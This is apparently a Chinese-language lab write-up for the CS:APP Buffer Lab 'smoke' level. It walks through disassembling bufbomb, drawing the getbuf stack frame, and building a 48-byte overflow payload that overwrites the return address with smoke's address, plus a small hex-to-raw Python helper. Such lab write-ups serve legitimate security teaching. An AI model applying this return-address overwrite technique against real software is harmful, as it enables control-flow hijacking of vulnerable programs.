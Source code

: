 **实验任务**:是要改变这个执行路线，即当getbuf返回后不会沿着test执行下去，而是去执行smoke函数：

    :::c
    void smoke()
    {
        printf("Smoke!: You called smoke()\n");
        validate(0);
        exit(0);
    }
这个实验挺简单，就是需要改变getbuf的返回地址为smoke入口地址即可。首先对bufbomb进行反汇编：
    objdump -d bufbomb > bufbomb.asm
找到smoke的入口地址为：0x08048c18，下面如何将getbuf的返回地址替换为这个地址呢？这里我们要对x86的函数调用栈帧非常熟悉，可参考： https://en.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames。
当调用getbuf时，栈帧大概位置如下：

    high ------------------------
        |  return addr to test() |
        |------------------------|
        |     ebp for test()     |
        |------------------------|<--- [ebp]
        |                        |
        |------------------------|    total 40 bytes                
        |        32 bytes        |
        |         buf            |
        |------------------------|<--- [ebp-0x28], start of buf
        |                        |
        |------------------------|
        |                        |<--- esp
    low |------------------------|

上面buf局部变量是保存输入的字符串的，它的地址为ebp-0x28（通过查看getbuf的反汇编代码），我们要修改的地址在return addr。显然我们输入的字符串只要一直overflow到return addr即可，总共44字节，最后加上smoke的地址，即能完成修改。
由于输入的是字符串，而这个我们要将smoke的地址（4个字节）转换成对应的字符，hex2raw能帮我们完成这个转换，但由于该程序是x86-64平台的，不能在32位系统上运行，可用下面的python来代替：

    :::python
    #! /usr/bin/env python
    # coding=utf-8

    import sys, os

    raw = ''
    input = raw_input()
    for hex in input.split():
        raw += chr(int(hex, 16))
    print raw

我们将输入的字符串对应的16进制值写到一个文本文件level1.txt中，内容如下：

    31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 18 8c 04 08
前面的44个字节为任意字符（但不能为\n，表示输入结束），最后的4个字节为smoke的入口地址（注意x86是little endian字节序）。然后用hex2raw.py将这个文件转换成对应的字符串ans.raw。
